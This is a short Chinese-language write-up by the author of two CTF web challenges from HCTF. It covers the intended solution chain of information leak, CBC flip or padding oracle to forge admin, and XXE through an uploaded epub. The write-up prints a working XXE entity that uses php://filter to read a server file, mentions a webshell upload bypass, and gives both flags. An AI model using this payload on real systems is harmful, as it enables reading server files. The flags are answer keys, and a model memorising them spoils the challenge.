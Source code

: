# 大图书馆的牧羊人 & 禁书目录

在公司膜Ricter的时候想到的思路。


预期内的做法(general)：
  
  1. 信息泄漏
  2. CBC flip 或者 Padding Oracle 伪造管理员上线
  3. 了解epub文件，构造XXE任意文件读取flag.php


> 如果没有第一步，作为一道黑盒题目，你能够摸清套路吗？ ^_^


P.S. Aklis灵魂运维，在部署这道题目的时候忘了上vhost的配置了，导致可以在获得admin身份之后直接上传包含webshell的zip压缩包。
用 comm.php 的加解密伪造也是我的锅，密钥是23333，然后我忘了几个3，后来在第五层的禁书目录其实就多了两个3，Orz。
在第四层按我的出题思路怼的师傅可以瞬秒禁书目录。


通过php://filter构造
```XML
<!ENTITY payload SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
```

直接回显

```
<navPoint id="coverpage" playOrder="0">
<navLabel><text>&payload;</text></navLabel>
```

但这样的话，别人能看得到哦，自己忘了覆盖回去让其它选手捡了便宜 XD

> 更合适的作法是通过远程的XXE回显。




两题的flag

```php
<?php
$flag = "hctf{Serena_is_the_leading_role}";
```

```php
<?php

$flag = "hctf{Lillie_is_comming}";
```